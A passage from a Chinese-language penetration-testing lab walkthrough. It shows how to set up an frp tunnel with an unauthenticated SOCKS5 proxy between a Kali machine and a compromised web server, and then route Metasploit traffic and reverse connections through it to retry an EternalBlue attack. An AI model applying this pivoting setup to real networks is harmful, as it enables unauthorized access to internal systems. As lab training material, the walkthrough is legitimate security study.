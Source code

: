
​	

使用frp内网穿透可以解决上述永恒之蓝漏洞利用失败的情况，首先设置frp服务端的配置文件`frps.ini`

```
[common]
bind_port = 7000  

[socks5]
type = tcp
auth_method = noauth  #表示这个代理不需要验证。如果你需要验证，可以设置为 userpass 并提供 username 和 password
bind_addr = 0.0.0.0
listen_port = 1080
```



kali执行命令启用frp服务端: `./frps -c ./frps.ini`

![image-20230529235913739](vulnstack靶场系列二/image-20230529235913739.png)



如下所示设置客户端的配置文件`frpc.ini` ，随后将`frpc.exe`和`frpc.ini`都上传至web机上

```
[common]
server_addr = 192.168.47.155
server_port = 7000

[socks5]
type = tcp
remote_port = 1080
plugin = socks5  ;用SOCKS5代理插件
```



 `setg proxies socks5:192.168.47.155:1080`：setg命令用于设置全局选项,也就是说后续的所有网络操作都将通过这个socks5代理进行

 `setg ReverseAllowProxy true`：将允许Metasploit的反向连接（reverse connections）通过代理,反向连接通常用于在成功利用某个漏洞后与目标系统建立连接，用于发送命令和接收结果

![image-20230527165347717](vulnstack靶场系列二/image-20230527165347717.png)
